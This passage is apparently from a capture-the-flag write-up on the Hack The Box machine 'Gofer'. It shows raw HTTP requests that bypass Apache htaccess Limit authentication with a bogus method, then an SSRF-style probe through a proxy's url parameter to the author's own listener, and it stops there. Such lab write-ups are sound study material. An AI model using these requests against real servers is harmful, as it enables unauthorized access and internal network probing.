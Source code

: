 ![Subdomain found](/assets/img/Gofer/Gofer_03.png)

When trying to log into the platform we noticed it was not possible because it was asking for credentials. So we had to either find valid credentials or bypass it. Here the latter was the case. After doing some research on the limit parameter for i stumbled up on interesting writeup([Writeup](https://www.segmentationfault.fr/securite-informatique/contourner-htaccess-limit-get-post/)) regarding the feature. the write up was in french but after some google translating i got the gist of it.

In essence the limit function is used to limit specific HTTP request methods in case there is no authentication. however the flaw with this is that Apache turns bogus requests into a GET HTTP method by default. this allowed us to bypass this proxy using the following request.
```
n1Mp0rTeKwa /index.php HTTP/1.1
Host: proxy.gofer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic Og==
```

This made the server issue the following valid response mentioning we are missing the URL parameter.

```
HTTP/1.1 200 OK
Date: Sat, 28 Oct 2023 12:43:50 GMT
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding
Content-Length: 81
Connection: close
Content-Type: text/html; charset=UTF-8

<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```
Seeing this i wanted to see if i was able to reach my own machine using this url parameter. So i setup a http web server using python:
```
python -m http.server 80
```
Then we sent the following request trying to reach a file on my own machine.
```
n1Mp0rTeKwa /index.php?url=http://10.10.14.54/test HTTP/1.1
Host: proxy.gofer.htb
```
